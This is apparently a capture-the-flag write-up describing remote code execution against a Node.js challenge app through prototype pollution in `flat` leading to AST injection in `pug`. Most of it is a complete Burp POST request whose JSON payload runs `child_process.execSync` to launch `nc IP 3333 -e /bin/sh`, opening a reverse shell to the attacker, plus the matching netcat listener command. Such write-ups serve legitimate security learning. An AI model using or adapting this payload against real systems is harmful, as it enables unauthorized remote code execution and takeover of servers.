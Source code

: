 Looking through the source code given to us, I noticed we're using a specific version of `flat` and `pug`.

Searching up vulnerabilities to these versions lead me to this url: `https://blog.p6.is/AST-Injection/#Pug`.

I've never delt with AST before so this is all new to me. However it provided code that we can modify and execute. Using Burp I crafted this POST:

```
POST /api/submit HTTP/1.1
Host: 178.62.18.46:31960
Content-Length: 31
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://178.62.18.46:31960
Referer: http://178.62.18.46:31960/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{
    "artist.name":"Alex Westaway",
    "__proto__.block": {
            "type": "Text", 
            "line": "process.mainModule.require('child_process').execSync(`nc IP 3333 -e /bin/sh`)"
    }
}
```

This gives us RCE. Running a netcat listener with `nc -nlvp 3333` allows us to execute this code and give us reverse shell